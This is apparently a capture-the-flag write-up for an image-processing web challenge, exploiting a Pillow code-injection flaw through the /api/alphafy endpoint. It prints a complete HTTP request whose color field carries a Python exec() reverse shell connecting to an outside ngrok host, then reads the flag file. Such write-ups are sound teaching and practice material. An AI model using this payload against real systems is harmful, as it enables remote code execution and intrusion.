 # Amidst Us
The application allows us to upload an imagefile and to pick an alpha color. All this data is being sent to a backend API at `/api/alphafy`, which then executes some dynamically parametrized imagemagick functions to build an alpha-channelled image.

## Exploit
Because the array `color` is being used without escaping it in `utils.py#21-24`, we first check for existing vulnerabilities with the imageprocessing library `PIL`. And lo and behold, there is a command injection vulnerability: https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901.

Exploiting this allowed usage of `exec()`, we can execute arbitrary python code, meaning we can also spawn a [reverse shell using python](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#python).

Payload:
```
POST /api/alphafy HTTP/1.1
Content-Type: application/json

{
    "background":[
        "exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"2.tcp.eu.ngrok.io\",18065));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);')",
        0,
        0
    ]
    "image":"/9j/4AAQSkZJRg..."
}
```

After landing the reverse shell, we can grab the flag using `cat /flag.txt`.